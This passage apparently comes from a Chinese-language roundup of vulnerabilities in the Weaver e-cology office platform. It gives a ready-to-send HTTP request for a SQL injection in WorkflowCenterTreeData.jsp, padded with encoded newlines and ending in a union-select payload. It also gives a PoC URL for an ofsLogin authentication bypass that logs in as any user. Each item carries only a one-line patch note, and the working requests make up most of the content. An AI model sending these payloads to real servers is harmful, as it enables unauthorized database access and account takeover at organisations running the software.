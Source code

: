   *   *   *   *   *   *   * 

    
    
    POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1Host:***Content-Type: application/x-www-form-urlencodedConnection: closeUpgrade-Insecure-Requests: 1  
    formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1

 **修复建议** ：官网已更新补丁  

  

 **7.泛微 e-cology  ofsLogin任意用户登录漏洞**

泛微e-
cology是一套兼具企业信息门户、知识文档管理、工作流程管理、人力资源管理、客户关系管理、项目管理、财务管理、资产管理、供应链管理、数据中心功能的企业大型协同管理平台。泛微e-
cology前台任意用户登录漏洞：泛微e-
cology9部分版本中存在前台任意用户登录漏洞。该漏洞允许未经身份验证的攻击者通过发送构造的请求触发漏洞，成功利用此漏洞的攻击者可登录任意用户。

 **漏洞编号** ：无

 **漏洞类型** ：认证绕过

 **影响版本** ：部分 e-cology9 并且补丁版本 < 10.57

 **POC** ：  

  * 

    
    
    /mobile/plugin/1/ofsLogin.jsp?gopage=/wui/index.html&loginTokenFromThird=866fb3887a60239fc112354ee7ffc168&receiver=1&syscode=1&timestamp

 **修复建议** ：

目前，官方已发布修复建议，建议受影响的用户尽快升级至最新版本的补丁。  
